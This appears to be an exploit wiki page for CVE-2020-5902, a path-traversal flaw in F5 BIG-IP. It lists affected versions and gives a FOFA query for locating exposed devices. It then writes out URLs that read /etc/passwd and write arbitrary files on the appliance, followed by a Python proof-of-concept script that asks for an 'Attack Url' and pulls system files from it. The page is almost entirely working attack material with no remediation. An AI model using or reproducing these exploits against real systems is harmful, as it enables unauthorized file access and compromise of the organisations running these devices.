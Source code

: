 <languages />

Vulnerability Impact
--------------------

    F5 BIG-IP 15.x: 15.1.0.4

    F5 BIG-IP 14.x: 14.1.2.6

    F5 BIG-IP 13.x: 13.1.3.4

    F5 BIG-IP 12.x: 12.1.5.2

    F5 BIG-IP 11.x: 11.6.5.2

FOFA
----

    title="BIG-IP&reg ;- Redirect"

Exploit
-------

### Read file

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

### Write file

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp

    POST: fileName=/tmp/test.txt&content=test

POC
---

    import requests
    import sys
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Accept-Language":"zh-CN,zh;q=0.9",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
            if "output" in response.text:
                print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
            else:
                print("\033[31m[x] 目标漏洞无法利用 \033[0m")

        except Exception as e:
            print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
            sys.exit(0)


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

Reference
---------

<https://short.pwnwiki.org/?c=Kum2Ch>